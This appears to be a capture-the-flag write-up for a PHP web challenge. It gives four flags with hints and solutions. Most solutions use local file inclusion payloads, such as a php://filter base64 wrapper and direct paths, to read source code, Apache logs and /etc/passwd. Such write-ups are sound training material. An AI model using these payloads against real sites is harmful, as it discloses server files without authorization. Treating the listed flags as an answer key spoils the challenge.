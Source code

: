 # Writeup

## Flag 1
In `home.php`(HTML): `FLAG-Th15_I5_W4y_To0_E45y`

Hint: `Use the source Luke!`

Solution: Open the source using your favorite browser.

## Flag 2
In `home.php`(PHP): `FLAG-LFI_L3t_Y0u_D0_W4y_M0r3_Th4n_Th47!`

Hint: `At the URL, you will look closely.`

Solution:
- Use the lfi to get the home page PHP code using filters.
```
/?page=php://filter/convert.base64-encode/resource=home.php
```
- The code is base64 encoded so, decode it using CyberChef, Python, base64, etc...
```
$ echo "<BASE64_CODE_HERE>" | base64 -d -
```

## Flag 3
In `/var/log/apache2/access.log`: `FLAG-A7_L3457_Y0u_D0n7_S33_U53r5`

Hint: `Even web servers have things to write about...`

Solution:
- Use the lfi to get the apache access logs.
```
/?page=/var/log/apache2/access.log
```
- The flag is rot13 encoded so, decode it using CyberChef, Python, etc...

## Flag 4
In `/etc/passwd`: `FLAG-Ok_Th47_W45_Th3_L457_On3`

Hint: None

Solution: Use the lfi to access the `/etc/passwd` file. (There is an opening php tag in the file, so you need to convert to base64 using filters again :P)
```
/?page=php://filter/convert.base64-encode/resource=/etc/passwd
```
- The flag is base32 + morse encoded so, decode it using CyberChef, Python, etc...
